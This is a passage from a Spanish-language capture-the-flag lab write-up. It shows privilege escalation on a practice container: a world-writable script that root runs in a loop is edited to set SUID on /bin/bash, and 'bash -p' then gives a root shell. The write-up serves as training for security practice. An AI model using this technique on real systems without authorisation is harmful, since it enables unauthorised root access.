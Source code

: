 Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

En el directorio /home del usuario **hackpenguin**, encontramos un **script.sh**. Es extraño porque vemos que tiene los permisos **777** y le pertenece a **root**, si conseguimos que root lo ejecute podremos modificarlo y ejecutar lo que queramos.

```shell
ls -l script.sh
------------------------------------------
-rwxrwxrwx 1 root root 56 Apr 15 07:26 script.sh
```

Revisamos los procesos que están corriendo:

```shell
ps -faux
---------------------------
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  6.6  0.0   2892   968 ?        Ss   14:27   0:19 /bin/sh -c service apache2 start && service ssh start && while true; do /bin/bash /home/hackpenguin/script.sh; done
root          25  0.0  0.0   6780  4812 ?        Ss   14:27   0:00 /usr/sbin/apache2 -k start
```

Podemos ver que **root** está ejecutando cada cierto tiempo el script que está dentro del directorio /home de **hackpengui**.

Lo editaremos para que de permiso **SUID** a la bash directamente, y esperaremos a que root lo ejecute.

![Pasted image 20240415143522](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/e5427bfe-aeb5-4b58-81ae-a6556bbdcc7a)

Tras esperar un poco:

```shell
ls -l /bin/bash
----------------
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Abusamos de esta para escalar privilegios a root:

```shell
bash -p
```

```shell
whoami
--------------
root
```

Hemos conseguido el nivel de privilegios máximo!

